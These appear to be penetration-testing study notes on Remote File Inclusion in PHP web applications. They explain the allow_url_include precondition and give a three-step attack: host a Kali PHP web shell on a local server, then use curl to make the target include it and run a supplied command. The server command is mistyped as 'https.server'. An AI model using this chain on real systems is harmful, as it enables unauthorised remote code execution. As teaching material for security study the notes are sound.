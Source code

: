 
RFI is less common than LFI - the system must be configured in a specific way - e.g. PHP web apps must have `allow_url_include` enabled.

This vulnerability will allow us to include files from remote systems over HTTP or SMB. The file is also executed in the context of the web application.

Scenarios where we'll find the vulnerability is when the web application loads files or contents from remote systems - e.g. libraries or application data.

RFI can be discovered using the same techniques from LFI and Directory Traversal.


1. make use of a php web shell in `/usr/share/webshells/php/simple-backdoor.php`
2. `python -m https.server 80` - make the file available to the remote target
3. `curl http://url/directory/index.php?page=http://local-ip:port/simple-backdoor.php&cmd=CMD` - request the file from our local server and pass it a command to execute